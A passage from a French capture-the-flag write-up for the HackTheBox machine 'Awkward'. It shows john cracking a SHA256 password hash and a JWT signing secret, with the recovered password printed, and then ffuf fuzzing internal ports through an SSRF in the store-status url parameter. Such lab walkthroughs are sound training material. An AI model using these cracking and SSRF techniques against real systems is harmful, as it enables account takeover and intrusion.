 C’est peut être du sha256 donc on va essayer de le cracker avec john:

```bash
sudo john creds.hash --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```

On trouve donc un mot de passe, on va tester de se log en tant qu’un autre utilisateur. C’était le compte de chris et on tombe sur son dashboard

On peut maintenant faire des requêtes de congés donc on va tenter des injections dans le champ du nom. Pas possible de poster quand il y a des balises pour javascript donc pas possible d’injecter à priori.

Notre token JWT est cependant:

```bash
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjc3MDk0NzM1fQ.NZZGdHIaEJfyXcu5t6oL7tcqtMOw2Nd2QVhUB5ODmnc
```

On va donc encore utiliser john:

[https://raw.githubusercontent.com/Sjord/jwtcrack/master/jwt2john.py](https://raw.githubusercontent.com/Sjord/jwtcrack/master/jwt2john.py)

```bash
./jwt2john.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjc3MDk0NzM1fQ.NZZGdHIaEJfyXcu5t6oL7tcqtMOw2Nd2QVhUB5ODmnc > ../machines/awkward/token.john

john token.john --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
123beany123      (?)
1g 0:00:00:01 DONE (2023-02-22 20:52) 0.5649g/s 7534Kp/s 7534Kc/s 7534KC/s 123erix..1234ถุ
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

On suppose donc que c’est le mdp de Bean Hill. On remarque aussi dans la catégorie network ceci:

```bash
http://hat-valley.htb/api/store-status?url=%22http:%2F%2Fstore.hat-valley.htb%22
```

Ce qui pointe vers le sous domaine trouvé précedemment. Si on fait ceci:

```bash
http://hat-valley.htb/api/store-status?url=%22http://localhost%22
```

On est redirigé vers la page d’acceuil, on pourrait alors essayer de fuzzer l’url et trouver un service qui écoute en internet sur cette URL. On va donc utiliser ffuf:

```bash
ffuf -w /usr/share/wordlists/SecLists/Fuzzing/4-digits-0000-9999.txt -u 'http://hat-valley.htb/api/store-status?url="http://127.0.0.1:FUZZ"' -fs 0
```
